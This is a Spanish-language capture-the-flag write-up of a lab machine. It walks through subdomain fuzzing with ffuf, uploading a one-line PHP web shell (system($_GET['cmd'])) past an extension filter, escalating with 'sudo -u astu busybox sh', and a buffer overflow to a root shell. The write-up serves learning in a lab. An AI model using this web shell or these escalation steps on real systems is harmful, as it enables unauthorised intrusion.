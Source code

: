 nmap: 80

![image](https://github.com/user-attachments/assets/ff3cd078-fc1e-459c-8639-086836758977)

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![image](https://github.com/user-attachments/assets/815b9f3b-7096-4316-816c-ec053989f3d7)

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![image](https://github.com/user-attachments/assets/0ea7d491-d1d2-4b82-abbe-d8a190225222)

obtenemos un "crosswords", como es subdominio lo añadimos al host

![image](https://github.com/user-attachments/assets/7857eb8e-95e8-4700-a735-8f632a5578bb)

y obtenemos

![image](https://github.com/user-attachments/assets/0b6ce348-1d7c-4119-979d-682891662c06)

si ingresamos solo lo codifica. vamos al código fuente  

![image](https://github.com/user-attachments/assets/355c76f4-cdb2-41ca-aede-4059fa21d72a)

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![image](https://github.com/user-attachments/assets/4481fc1b-b557-4923-93de-0bfd13b1a1d5)

lo agregamos y vemos que hay una subida de archivos

![image](https://github.com/user-attachments/assets/50a7e2f4-5984-4e57-bf52-e5faf10a417b)

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![image](https://github.com/user-attachments/assets/1e1e1292-d36a-4143-8a7f-27eff711345a)

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![image](https://github.com/user-attachments/assets/8dc8857f-00ec-4df7-bf5d-0522def667d1)

![image](https://github.com/user-attachments/assets/72c9d0d7-d2dd-4370-a25f-3c703bc7edcb)

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![image](https://github.com/user-attachments/assets/64c14cb6-2102-4e82-a2de-50799e4b5e55)

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![[dockerlabs/medio/seeker/usuario1.png]]

veremos esto con el usuario astu

![[bas64.png]]

probamos si se puede hacer un ataque de desbordamiento

![[flow.png]]

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![[gdb.png]]

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
